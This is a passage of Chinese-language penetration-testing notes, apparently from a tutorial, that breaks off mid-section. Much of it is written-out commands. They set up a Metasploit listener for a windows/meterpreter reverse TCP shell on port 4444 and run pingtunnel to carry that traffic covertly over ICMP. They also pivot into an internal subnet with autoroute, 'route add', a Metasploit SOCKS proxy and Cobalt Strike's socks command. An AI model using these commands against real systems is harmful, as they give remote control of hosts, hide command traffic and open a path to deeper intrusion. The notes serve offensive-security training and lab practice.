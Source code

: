 MSF启动监听：
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
exploit 

Kali开启隧道：
./pingtunnel -type server
Win开启隧道 //将本地3333 icmp协议数据转发到指定ip的4444端口上
管理员运行（ICMP程序）
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.46.66 -t 192.168.46.66:4444 -tcp 1 -noprint 1 -nolog 1</code></pre>


#### 2）示例：

> 
<h2>三、代理技术</h2>
<h3>1、dome</h3>
适用的场景（不可直达）


<hr/>
<h3>2、第一步：网络通讯</h3>
MSF&amp;CS（路由添加&amp;节点建立）
<pre><code>代理协议：
SOCKS4/5
代理软件：
SocksCap Proxifier ProxyChains等

//右边第一个出网，getshell
//右边第1、2个主机都是通过vm2网络通信（同一网段192.168.11.0）
//建立通讯

MSF通讯
1、添加路由 限于MSF
查看路由信息
run autoroute -p
run post/multi/manage/autoroute
//添加指定路由（wm2的），1是接收的session编号
route add 192.168.11.0 255.255.255.0 1
2、Sock代理（全局）
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 1115
run
启用代理软件配置Sock5代理


CS通讯
命令：socks 59578
操作：代理转发-Socks代理</code></pre>
<hr/>
<h3>3、第二步：控制上线</h3>
MSF&amp;CS（协议生成&amp;正反连接）
<pre><code>//此处是允许入站，所以正向连接
//通过同一网段（wm2）通讯，并上线监听
